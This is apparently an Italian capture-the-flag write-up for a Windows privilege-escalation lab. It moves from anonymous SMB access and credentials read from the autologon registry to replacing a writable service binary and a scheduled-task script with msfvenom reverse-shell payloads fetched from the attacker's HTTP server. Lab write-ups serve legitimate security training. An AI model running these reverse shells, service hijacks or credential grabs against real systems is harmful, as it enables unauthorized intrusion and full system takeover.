

Windows Jump
Procediamo come di consueto a enumerare i servizi presenti nella macchina, per la prima volta il target è una macchina Windows, sarà interessante vedere la differenza.
sudo nmap -sS -sV -sC -p- 10 .128.156.84 -oN nmap.output
135 /tcp open msrpc Microsoft Windows RPC
139 /tcp open netbios-ssn Microsoft Windows netbios-ssn
445 /tcp open microsoft-ds?
3389 /tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: PRIVESC
| NetBIOS_Domain_Name: PRIVESC
| NetBIOS_Computer_Name: PRIVESC
| DNS_Domain_Name: privesc
| DNS_Computer_Name: privesc
| Product_Version: 10 .0.17763
| _ System_Time: 2026 -10-31T23:30:15+00:00
| _ssl-date: 2026 -10-31T23:30:23+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName = privesc
| Not valid before: 2026 -10-30T23:24:24
| _Not valid after: 2027 -05-01T23:24:24
5985 /tcp open http Microsoft HTTPAPI httpd 2 .0 ( SSDP/UPnP)
| _http-title: Not Found
| _http-server-header: Microsoft-HTTPAPI/2.0
7680 /tcp open pando-pub?
47001 /tcp open http Microsoft HTTPAPI httpd 2 .0 ( SSDP/UPnP)
| _http-server-header: Microsoft-HTTPAPI/2.0
| _http-title: Not Found
49664 /tcp open msrpc Microsoft Windows RPC
49665 /tcp open msrpc Microsoft Windows RPC
49666 /tcp open msrpc Microsoft Windows RPC
49667 /tcp open msrpc Microsoft Windows RPC
49668 /tcp open msrpc Microsoft Windows RPC
49669 /tcp open msrpc Microsoft Windows RPC
49671 /tcp open msrpc Microsoft Windows RPC
49672 /tcp open msrpc Microsoft Windows RPC
Info: OS: Windows; CPE: cpe:/o:microsoft:windows
script results:
| smb2-time:
| date: 2026 -10-31T23:30:16
| _ start_date: N/A
| _clock-skew: mean: -1s, deviation: 0s, median: -1s
| smb2-security-mode:
| 3 .1.1:
| _ Message signing enabled but not required
Servizio
Porta
Versione
msrpc (Microsoft RPC)
135, 49664-49672
-
smb
139, 445
rdp
3389
WinRM
5985
pando-pub
7680
Non rilevante
http
47001
Microsoft HTTPAPI httpd 2.0
Effettuiamo una scansione del samba share senza autenticazione
smbclient -N -L //10.128.156.84
Sharename Type Comment
--------- ---- -------
ADMIN$ Disk Remote Admin
C$ Disk Default share
IPC$ IPC Remote IPC
Public Disk Public file share
`-N` login anonimo
`-L` List share
E’ presente uno share Public proviamo ad accederci
smbclient -N //10.128.156.84/Public
"help" to get a list of possible commands.
\> ls
. D 0 Mon May 11 02 :40:51 2026
.. D 0 Mon May 11 02 :40:51 2026
welcome.txt A 177 Mon May 11 02 :40:50 2026
7863807 blocks of size 4096 . 3610517 blocks available
\> get welcome.txt
cat welcome.txt
to CORP-NET.
employee default credentials
================================
: thmuser
: Password1!
change your password after first login.
E possiamo loggarci in RDP come user thmuser
C:\U sers\t hmuser\D esktop> type .\f lag1.txt
{ 5mb_**************}
Possiamo notare come è impostato l’autologon per l’utente notadmin
C:\U sers\t hmuser.PRIVESC> reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | findstr /i "DefaultUserName DefaultDomainName DefaultPassword AutoAdminLogon"
AutoAdminLogon REG_SZ 1
DefaultUserName REG_SZ notadmin
DefaultPassword REG_SZ powe
Permettendoci di vedere la password in chiaro!
C:\U sers\t hmuser.PRIVESC> runas /user:PRIVESC\n otadmin cmd.exe
the password for PRIVESC\n otadmin:
to start cmd.exe as user "PRIVESC\notadmin" ...
E otteniamo l’accesso all’utente notadmin e la flag2
C:\W indows\s ystem32> type C:\U sers\n otadmin\D esktop\f lag2.txt
{ w1nl0g0n_******************}
vediamo che gira come svcadmin
Il prossimo utente è svcadmin guardando i servizi a lui associati ne notiamo uno Stopped
C:\W indows\s ystem32> Get-CimInstance Win32_Service | Where-Object { $_ .StartName -like "*svcadmin*" } | Select-Object Name, DisplayName, StartName, State
DisplayName StartName State
----------- --------- -----
THM Background Service .\s vcadmin Stopped
Guardando le caratteristiche del servizio
C:\W indows\s ystem32> .\s c.exe qc "THMSvc"
[ SC] QueryServiceConfig SUCCESS
THMSvc
TYPE : 10 WIN32_OWN_PROCESS
START_TYPE : 3 DEMAND_START
ERROR_CONTROL : 1 NORMAL
BINARY_PATH_NAME : C:\W indows\T HMSVC\s vc.exe
LOAD_ORDER_GROUP :
TAG : 0
DISPLAY_NAME : THM Background Service
DEPENDENCIES :
SERVICE_START_NAME : .\s vcadmin
C:\W indows\s ystem32> icacls C:\W indows\T HMSVC\s vc.exe
\W indows\T HMSVC\s vc.exe Everyone:( F)
PRIVESC\n otadmin:( I)( F)
BUILTIN\A dministrators:( I)( F)
NT AUTHORITY\S YSTEM:( I)( F)
processed 1 files; Failed processing 0 files
C:\W indows\s ystem32>
Esegue lo script C:\Windows\THMSVC\svc.exe che come vediamo tutti hanno il completo accesso Everyone:(F) quindi possiamo benissimo modificarlo!
msfvenom -p windows/x64/shell_reverse_tcp LHOST = 192 .168.131.79 LPORT = 4445 -f exe-service -o rev-svc.exe
[ -] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[ -] No arch selected, selecting arch: x64 from the payload
encoder specified, outputting raw payload
size: 460 bytes
size of exe-service file: 5632 bytes
as: rev-svc.exe
python3 -m http.server 8000
E dalla macchina windows lo scarichiamo e lo sovrascriviamo al vecchio eseguibile
C:\W indows\T HMSVC> wget 192 .168.131.79:8000/rev-svc.exe -O rev-svc.exe
C:\W indows\T HMSVC> move .\s vc.exe .\s vc.exe.bak
C:\W indows\T HMSVC> move .\r ev-svc.exe svc.exe
C:\W indows\T HMSVC> sc.exe start THMsvc
THMsvc
TYPE : 10 WIN32_OWN_PROCESS
STATE : 4 RUNNING
( STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
WIN32_EXIT_CODE : 0 ( 0x0)
SERVICE_EXIT_CODE : 0 ( 0x0)
CHECKPOINT : 0x0
WAIT_HINT : 0x0
PID : 2908
FLAGS :
C:\W indows\T HMSVC>
Ottenendo con successo la reverse shell!

E ottenendo la terza flag
C:\U sers\s vcadmin\D esktop> type flag3.txt
type flag3.txt
{ s3rv1c3_******************}
Ora dobbiamo diventare SYSTEM
C:\W indows\T asks> icacls cleanup.bat
cleanup.bat
BUILTIN\U sers:( I)( RX)
PRIVESC\s vcadmin:( I)( M)
BUILTIN\A dministrators:( I)( F)
NT AUTHORITY\S YSTEM:( I)( F)
processed 1 files; Failed processing 0 files
Possiamo modificare questo tasks!
msfvenom -p windows/x64/shell_reverse_tcp LHOST = 192 .168.131.79 LPORT = 4446 -f exe -o shell.exe
[ -] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[ -] No arch selected, selecting arch: x64 from the payload
encoder specified, outputting raw payload
size: 460 bytes
size of exe file: 7680 bytes
as: shell.exe
python3 -m http.server 8000
HTTP on 0 .0.0.0 port 8000 ( http://0.0.0.0:8000/) ...
E da windows gli facciamo lanciare l’eseguibile quando scatta il task
C:\W indows\T asks> wget http://192.168.131.79:8000/shell.exe -UseBasicParsing -OutFile shell.exe
http://192.168.131.79:8000/shell.exe -UseBasicParsing -OutFile shell.exe
C:\W indows\T asks> dir
Directory: C:\W indows\T asks
LastWriteTime Length Name
------------- ------ ----
5 /11/2026 6 :41 AM 41 cleanup.bat
11 /1/2026 2 :25 PM 7680 shell.exe
C:\W indows\T asks> cmd /c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
/c "echo C:\Windows\Tasks\shell.exe > C:\Windows\Tasks\cleanup.bat"
\W indows\S ystem32>type C:\f lag4.txt
type C:\f lag4.txt
{ t4sk_******************}